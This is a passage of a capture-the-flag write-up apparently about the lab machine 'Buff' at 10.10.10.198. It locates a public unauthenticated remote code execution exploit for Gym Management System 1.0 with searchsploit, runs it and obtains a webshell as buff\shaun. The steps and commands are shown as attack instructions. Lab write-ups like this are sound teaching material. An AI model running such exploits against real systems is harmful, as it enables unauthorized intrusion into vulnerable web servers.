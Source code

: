 ```
/profile (Status: 301)

---

```


## 2. Getting User

Take a look at `http://10.10.10.198:8080`, we can find a subtitle that shows the running software and its version.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-12-29/2020-12-27-15-41-31.png)

Using searchsploit, we can find an RCE [Gym Management System 1.0 - Unauthenticated Remote Code Execution](https://www.exploit-db.com/exploits/48506).
```
root@kali:~# searchsploit gym management
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
Gym Management System 1.0 - 'id' SQL Injection                                   | php/webapps/48936.txt
Gym Management System 1.0 - Authentication Bypass                                | php/webapps/48940.txt
Gym Management System 1.0 - Stored Cross Site Scripting                          | php/webapps/48941.txt
Gym Management System 1.0 - Unauthenticated Remote Code Execution                | php/webapps/48506.py
--------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Download (or use the one installed on Kali by default) the exploit, install the prerequisites for python2 and execute the script.<br>
We can confirm that we had a shell execution.

```
root@kali:~# python -m pip install requests

---

root@kali:~# python -m pip install colorama

---

root@kali:~# python 48506.py http://10.10.10.198:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
�PNG
�
buff\shaun
```

